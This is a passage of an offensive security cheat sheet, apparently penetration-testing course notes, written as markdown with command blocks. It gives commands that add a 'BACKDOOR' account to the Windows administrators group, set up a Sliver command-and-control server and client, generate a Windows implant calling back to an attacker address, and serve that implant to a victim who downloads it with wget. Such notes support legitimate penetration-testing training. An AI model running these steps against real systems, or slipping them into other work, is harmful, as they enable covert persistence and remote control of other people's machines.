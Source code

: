     ```
    * make user account an administrator
    ```
    net localgroup administrators BACKDOOR /add
    ```
    * look at the members of the administrators group
    ```
    net localgroup administrators
    ```

## Sliver
### Create Payload
* linux 
    * sliver server
        * setup sliver server
        ```
        sudo sliver-server
        ```
        * enable multiplayer mode
        ```
        multiplayer
        ```
        * create a user
        ```
        new-operater -n test -s /tmp/ -l SLIVER_ADDRESS
        sudo chown sec560:sec560 /tmp/*.cfg
        ```

    * sliver client
        * setup the client
        ```
        sliver-client import /tmp/test_SLIVER_ADDRESS.cfg
        ```
        * run the client
        ```
        sliver-client
        ```
        * create the listener
        ```
        https
        ```
        * generate the payload
        ```
        generate --os windows --skip-symbols --name first --http LHOST_ADDRESS
        implants
        ```

### Send Implants
* linux
    * python server
    ```
    python3 -m http.server
    ```
* windows
    * download implants
    ```
    wget http://LHOST_ADDRESS:8000/IMPLANTS_NAME.exe -OutFile a.exe
    ```
